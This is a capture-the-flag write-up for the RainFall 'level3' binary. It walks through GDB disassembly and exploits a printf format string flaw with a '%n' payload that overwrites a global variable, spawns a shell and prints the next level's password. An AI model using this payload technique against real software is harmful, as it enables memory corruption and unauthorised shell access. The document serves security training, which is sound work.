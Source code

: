 [README](../README.md)
# level3

## GDB Disassembly
### Main
```
0x0804851a <+0>:	push   %ebp
0x0804851b <+1>:	mov    %esp,%ebp
0x0804851d <+3>:	and    $0xfffffff0,%esp
0x08048520 <+6>:	call   0x80484a4 <v>
0x08048525 <+11>:	leave  
0x08048526 <+12>:	ret  
```

Function prologue and then call the function v.

### Function v
```
0x080484a4 <+0>:	push   %ebp
0x080484a5 <+1>:	mov    %esp,%ebp
0x080484a7 <+3>:	sub    $0x218,%esp
0x080484ad <+9>:	mov    0x8049860,%eax
0x080484b2 <+14>:	mov    %eax,0x8(%esp)
0x080484b6 <+18>:	movl   $0x200,0x4(%esp)
0x080484be <+26>:	lea    -0x208(%ebp),%eax
0x080484c4 <+32>:	mov    %eax,(%esp)
0x080484c7 <+35>:	call   0x80483a0 <fgets@plt>
0x080484cc <+40>:	lea    -0x208(%ebp),%eax
0x080484d2 <+46>:	mov    %eax,(%esp)
0x080484d5 <+49>:	call   0x8048390 <printf@plt>
0x080484da <+54>:	mov    0x804988c,%eax
0x080484df <+59>:	cmp    $0x40,%eax
0x080484e2 <+62>:	jne    0x8048518 <v+116>
0x080484e4 <+64>:	mov    0x8049880,%eax
0x080484e9 <+69>:	mov    %eax,%edx
0x080484eb <+71>:	mov    $0x8048600,%eax
0x080484f0 <+76>:	mov    %edx,0xc(%esp)
0x080484f4 <+80>:	movl   $0xc,0x8(%esp)
0x080484fc <+88>:	movl   $0x1,0x4(%esp)
0x08048504 <+96>:	mov    %eax,(%esp)
0x08048507 <+99>:	call   0x80483b0 <fwrite@plt>
0x0804850c <+104>:	movl   $0x804860d,(%esp)
0x08048513 <+111>:	call   0x80483c0 <system@plt>
0x08048518 <+116>:	leave  
0x08048519 <+117>:	ret  
```

- Reads input from the user using `fgets`
- Print the input using printf
- Compare the value stored in `0x804988c` to the value `$0x40`
- if the comparison is equal the program execute a `system` call
- otherwise exit

#### Global variable
```
(gdb) info variables
    0x0804988c  m
(gdb) x/d 0x804988c
    0x804988c <m>:	0
```

## Exploit
We need to find a way to overwrite the value of the variable `m` located at `0x804988c`.
It may be possible to exploit format string vulnerabilities in the `printf` call to overwrite memory.

If we try to input format specifiers in the program, we can see that the input is not properly sanytized.
The program prints the values currently on the stack.
```
level3@RainFall:~$ ./level3
%x %x %x
200 b7fd1ac0 b7ff37d0
```


**`%n` format specificer:**
The %n format specifier in printf does not output anything itself. Instead, it writes the number of characters printed so far to a memory location specified by an argument.
```
printf("%n", &integer_variable);
```
- `%n``: Format specifier to write the number of characters printed so far.
- `&integer_variable`: Pointer to an integer variable where the count of characters printed so far will be written.

**Writing the variable `m`:**
We need to edit the value stored at `0x804988c` with a value of `0x40` = `64` in decimal

- Memory location: `"\x8c\x98\x04\x08"`

We try to input the adress of `m` and print the addresses of the stack using `%x` format.
We see that the address lands on the 4th byte
```
level3@RainFall:~$ python -c 'print "\x8c\x98\x04\x08 %x %x %x %x %x %x %x"' > /tmp/exploit
level3@RainFall:~$ cat /tmp/exploit | ./level3 
� 200 b7fd1ac0 b7ff37d0 804988c 20782520 25207825 78252078
```

**Crafting the payload:**
We need to write a total of 64 bytes and use the `%n` format to output to the variable `m`

```
\x8c\x98\x04\x08   AAAAAAAA...AAAA    %4$n
|----------------|------------------|
    Address of        Padding        Format Specifier
    variable m
```

```
level3@RainFall:~$ python -c 'print "\x8c\x98\x04\x08" + "A" * 60 + "%4$n"' > /tmp/exploit
level3@RainFall:~$ cat /tmp/exploit - | ./level3 
�AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Wait what?!
whoami
level4
cat /home/user/level4/.pass
b209ea91ad69ef36f2cf0fcbbc24c739fd10464cf545b20bea8572ebdc3c36fa
```

## Ressources
[OWASP - format string attack](https://owasp.org/www-community/attacks/Format_string_attack)
